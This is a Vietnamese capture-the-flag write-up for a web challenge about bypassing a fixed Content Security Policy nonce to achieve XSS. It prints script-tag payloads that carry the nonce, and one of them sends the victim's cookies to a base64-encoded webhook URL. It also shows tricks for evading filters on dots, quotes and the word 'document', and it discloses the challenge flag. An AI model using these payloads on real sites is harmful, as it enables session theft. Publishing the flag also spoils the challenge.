





```diff
@@ Web-Server Challenge @@
```

## CSP Bypass - Nonce [50 Points]

- Mục tiêu của Challenge này là bypass Content security policy để thực thi XSS. Đầu tiên, ta dùng Burpsuite để kiểm tra CSP của trang web là gì. Ta thấy như sau

  

- Kiểm tra an toàn của CSP ta thấy nó có lỗ hổng trong việc sử dụng một **nonce cố định** (thường sẽ là random)

  

- Để thực thi script ta cần nhét nonce này vào thẻ script, tuy nhiên ở đây trang web đã filter **single quote** nên ta dùng **double quote**

  ```<script nonce="PHNjcmlwdCBubzgtMTEtMjAyMg==" > alert(1) </script>```

  *Lưu ý rằng đôi lúc nó thực thi được, đôi lúc lại không, chắc do server sida*

- Kết quả ta thấy có thể tiêm XSS

  

- Đổi lại payload để XSS ta có:

  ```<script nonce="PHNjcmlwdCBubzgtMTEtMjAyMg==" > document.location = "webhook-here"+document.cookie </script>```

- Ta có kết quả là bị filter. Kiểm tra thì biết server filter dấu ```.```, dấu ```'```, và chữ ```document```. Đổi nhẹ lại như sau ta có kết quả là xss thành công.

  Kết quả khi bị dính filter

  

  Và payload sau khi ta sửa lại: [Dùng base64encode để bypass các dấu ```.``` trong url, dùng ```window``` thay vì ```document```, dùng dấu ```+``` để nhét được chữ document vào window]

  ```javascript
  <script nonce="PHNjcmlwdCBubzgtMTEtMjAyMg==" > window["location"]=atob("aHR0cHM6Ly93ZWJob29rLnNpdGUvMDNjOTcwMzktYjAwZS00ODIwLTkxYzYtNjQyNDYwMmIwZTdmP2M9")+window["docu"+"ment"]["cookie"] </script>
  ```

  Để các ký tự ```+``` không bị xem như ký tự ```whitespace``` thì ta cần urlencode nó thành ```%2b``` 

  Và kết quả thu được

  

  ```diff
  -- Flag là: rootme{CSP_BYP455_n0nC3}
  ```